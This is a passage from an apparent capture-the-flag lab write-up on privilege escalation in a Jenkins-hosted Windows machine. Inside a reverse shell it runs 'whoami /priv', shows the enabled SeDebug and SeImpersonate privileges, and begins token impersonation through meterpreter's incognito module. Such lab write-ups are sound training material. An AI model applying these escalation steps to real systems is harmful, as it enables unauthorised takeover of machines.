 We successfully switched from a basic shell to a **meterpreter** shell. This concludes [Task 2].

 [Task 3] - Privilege Escalation
 --------------------------
 To solve this last task we'll have to leverage the **token impersonation** technique. The room itself goes into a bit of detail of what it is and how it works. Let's just skip to how to exploit it before this write-up gets any longer.

We need to use the **whoami /priv** command to see the permissions we have for the user **bruce**. Let's run that command in our reverse shell.

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
PS C:\Program Files (x86)\Jenkins\workspace\project> 

```

We get that **SeDebugPrivilege** and **SeImpersonatePrivilege** are **Enabled.** Just what we need.
```bash
SeDebugPrivilege                Debug programs                            Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
```

Back to our **meterpreter** reverse shell, let's load the **incognito** module that would let us exploit those privileges. Then we run **list_tokens -g** to see the available tokens.
